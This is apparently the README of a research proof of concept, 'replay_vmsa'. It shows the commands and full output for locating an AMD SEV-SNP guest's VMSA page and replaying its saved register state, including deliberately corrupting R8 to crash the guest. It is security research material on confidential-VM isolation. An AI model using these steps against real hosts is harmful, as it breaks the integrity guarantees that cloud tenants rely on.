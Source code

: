 # replay_vmsa



The source code and the flags talk a lot about *Trusted Memory Regions (TMR)*
because this is the part we initialy wanted to attack. However, it turned out that
TMRs are no longer used to protect the VMSA. You can simply use the VMSA HPA of the SEV-SNP VM whenever the code talks about TMR addrs.

## Usage
First, locate the VMSA page of the guest
```bash
$ sudo ./read_rmp 0x97d00000 0xa82fffff stdout | grep vmsa=1
Entry at offset idx 0x1840042 for hpa 0x1c13aa000 : assigned=1 pagesize=0 immutable=0, gpa=0xfffffffff asid=5 vmsa=1 validated=1
Entry at offset idx 0x6402837 for hpa 0x61b315000 : assigned=1 pagesize=0 immutable=1, gpa=0x000000000 asid=0 vmsa=1 validated=0
```

The entry with a non-zero asid is the one we want. Use its hpa in the next step

```bash
$ sudo ./replay_vmcb --mode REPLAY --aliases ./edited-aliases.csv --tmr-pa 0x59c900000 --tmr-bytes 0x1000 --qemu-pid $(pidof qemu-system-x86_64)
Pausing VM...
VM paused!
Capturing Register State
tmr_pa          0x59c900000
alias_tmr_pa    0xd9c930000
Copying TMR via  0x59c900000 bytes 0x1000 aliased? 0
Captured register state!
Resuming VM...
VM resumed!
Short sleep...
Blocking VM 2nd time...
VM blocked!
Replaying register state...
Copying TMR via  0x59c900000 bytes 0x1000 aliased? 0
Hash for state A: 16 33 31 82 f0 76 ec 1a 52 03 2a 62 84 bc d0 cb b8 1c 57 d6 46 4f 9d 61 ba dd 85 a2 5a 32 19 fe 
Hash for state B: cb d4 11 e1 86 52 b4 9a 36 b5 5a d0 8c 8b b5 7f 93 68 11 95 d1 19 ad 7d 73 78 79 01 18 5e a6 92 
Memsetting state R8 to garbage to force crash
Replayed register state!
Resuming VM...
VM resumed
```
